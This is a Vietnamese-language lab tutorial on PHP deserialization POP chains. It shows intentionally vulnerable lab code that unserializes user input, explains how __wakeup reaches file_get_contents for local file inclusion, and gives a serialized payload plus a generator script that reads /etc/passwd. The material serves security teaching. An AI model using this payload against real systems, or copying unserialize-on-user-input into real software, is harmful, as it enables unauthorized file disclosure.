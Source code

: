 Dưới đây là một lab đơn giản, chỉ sử dụng qua 1 lần gọi magic method để giải mình viết ra. Nhưng trong thực tế để xử lý những bài POP chain chắc không chỉ dừng lại ở 1 2 object như thế này

> Source: Lab1 trong file zip

```php
class TmpClass{
    public $tmp;

    function __wakeup(){
        $this->tmp->getFile();
    }
}

class Read{
    public $filename;

    function getFile(){
        echo file_get_contents($this->filename);
    }
}

$data = unserialize($user_input);
```

Với mục tiêu là LFI, tư duy để sinh payload cho bài này là làm như nào đó để `$this->filename` trong `getFile` nhận giá trị mình mong muốn. Dễ thấy `getFile` được gọi bởi method `__wakeup` của TmpClass, và method này sẽ mặc định được gọi nếu có tồn tại khi sử dụng `unserialize()`

Như vậy, xâu chuỗi lại các vấn đề:
- LFI xảy ra khi `getfile()` được thực thi, tức giả sử có 1 đối tượng `$event = new Read()` thì phải có `$event->getfile()`
- Để có `$event->getfile()`, ta nhận thấy ở trên có `$this->tmp->getFile()`. Tức giờ ta sẽ làm sao để giá trị biến `tmp` trong class TmpClass nhận giá trị là `$event` và `__wakeup()` phải được call (đã thoả mãn) => Done

Với ý tưởng như vậy, ta có thể viết lại code để sinh payload như sau:

```
// payload: O:8:"TmpClass":1:{s:3:"tmp";O:4:"Read":1:{s:8:"filename";s:11:"/etc/passwd";}}
```

```php
<?php
class TmpClass{
    public $tmp;

    function __construct($tmp){
        $this->tmp = $tmp;
    }
}

class Read{
    public $filename;

    function __construct($filename){
        $this->filename = $filename;
    }
}

$tmp = new Read("/etc/passwd");
$data = new TmpClass($tmp);

$solve = serialize($data);
echo $solve;
?>
```
